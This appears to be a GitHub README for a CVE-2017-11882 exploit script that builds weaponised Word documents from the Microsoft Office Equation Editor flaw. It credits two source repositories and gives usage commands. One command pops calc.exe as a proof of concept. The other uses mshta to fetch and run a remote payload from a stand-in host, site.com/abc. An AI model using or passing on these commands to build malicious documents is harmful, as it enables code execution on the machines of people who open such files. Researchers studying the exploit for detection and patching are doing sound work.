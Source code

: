 # CVE-2017-11882
### 脚本来自于 
* [https://github.com/embedi/CVE-2017-11882](https://github.com/embedi/CVE-2017-11882)
* Ridter[https://github.com/Ridter/CVE-2017-11882/](https://github.com/Ridter/CVE-2017-11882/)
## Usage
```txt
    python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```
use mshta
```txt
    python Command_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc
```
